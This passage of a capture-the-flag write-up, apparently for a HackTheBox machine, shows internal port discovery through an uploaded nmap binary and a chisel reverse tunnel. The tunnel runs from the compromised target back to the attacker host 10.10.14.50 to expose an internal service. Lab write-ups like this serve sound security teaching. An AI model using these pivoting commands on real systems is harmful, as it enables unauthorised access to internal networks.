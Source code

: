 ![netstat](8.png "netstat")

From our initial nmap scan, we saw port 3000 as filtered. Since there isn't any service running here on port 3000 we can conclude that's a different instance.

What we can do now is we can check for port `3000` on other ip addresses on our network.

For that I uploaded a static nmap binary on the server using the `/upload` functionality.

Upon manually checking the ip addresses, `172.17.0.1` has an open port `3000`.

![nmap scan](9.png "nmap scan")

### Exposing the Internal Port

We'll now use `chisel` to forward this port and access on our machine.

On our local machine
```
┌──(saad👻ssaadakhtarr)-[~/…/machines/opensource/app/app]
└─$ ./chisel server --reverse --port 8000

```

On target machine
```
/app/public/uploads # ./chisel client 10.10.14.50:8000 R:3000:172.17.0.1:3000
```

Now visiting `http://localhost:300/` on our machine will open up the website.
